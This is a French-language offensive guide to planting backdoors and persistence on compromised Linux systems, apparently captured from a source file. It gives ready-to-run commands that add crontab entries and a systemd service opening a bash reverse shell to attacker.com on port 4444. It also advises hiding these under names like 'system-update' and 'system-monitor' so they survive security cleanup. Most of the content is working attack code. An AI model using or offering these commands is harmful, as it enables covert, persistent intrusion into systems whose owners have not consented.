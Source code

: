 # Backdoors et Persistance - Guide Complet

## 🗂️ Workflow de mise en place de backdoors
1. Choix de la méthode de persistance (service, tâche, autorun)
   ↓
2. Création ou modification des éléments de persistance
   ↓
3. Test de l'activation et de la reconnexion
   ↓
4. Camouflage et discrétion (noms légitimes, processus système)
   ↓
5. Mise en place de mécanismes de fallback
   ↓
6. Documentation pour maintenance et suppression

## 📋 Vue d'ensemble

Les backdoors permettent de maintenir un accès persistant à un système compromis même après redémarrage ou déconnexion. Elles doivent être discrètes et résistantes aux nettoyages de sécurité.

> **💡 Explication Simple** : C'est comme cacher une clé de rechange dans le jardin. Même si la porte principale est verrouillée ou changée, on peut toujours rentrer par notre passage secret.

## 🐧 Backdoors Linux

### Tâches Cron
```bash
# Backdoor via crontab utilisateur
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'") | crontab -

# Backdoor système (nécessite root)
echo "*/5 * * * * root /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'" >> /etc/crontab

# Backdoor dans /etc/cron.d/
echo "*/5 * * * * root /usr/local/bin/system_update.sh" > /etc/cron.d/system-update
```

### Services Systemd
```bash
# Créer un service persistant
cat > /etc/systemd/system/system-monitor.service << EOF
[Unit]
Description=System Monitor Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
EOF

# Activer le service
systemctl enable system-monitor.service
systemctl start system-monitor.service
```
